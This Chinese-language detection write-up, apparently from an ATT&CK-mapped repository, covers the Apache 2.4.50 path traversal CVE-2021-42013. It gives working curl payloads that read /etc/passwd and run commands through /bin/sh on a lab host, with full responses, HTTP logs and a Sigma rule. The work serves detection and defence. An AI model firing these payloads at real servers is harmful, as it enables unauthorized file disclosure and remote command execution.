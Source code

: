 # T1190-CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

## 漏洞详情

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用.%%32%65进行绕过（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```


可见，成功读取到/etc/passwd：

```
curl -v --path-as-is http://10.211.55.10:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:33:12 GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

```yml
curl -v --data "echo;id" 'http://10.211.55.10:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:34:09 GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

## 检测日志

HTTP.log

```http.log
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:09 GMT
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:11 GMT
Server: Apache/2.4.50 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

## 测试复现

可参考漏洞详情部分

## 检测规则/思路

### sigma规则

```yml
title: CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md
detection:
    selection:
        cs-method: 
            - 'GET' #请求方法为GET
            - 'POST' #请求方法为POST
        c-uri: '.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

也可以根据自己实际需求，编写suricata规则。

流量包下载位置:<https://pan.baidu.com/s/1m-rysxGIeMVfZNIBuaRa2Q>

提取码:0wff

### 建议

建议使用HTTP流量+安全设备(如天眼等)进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md>
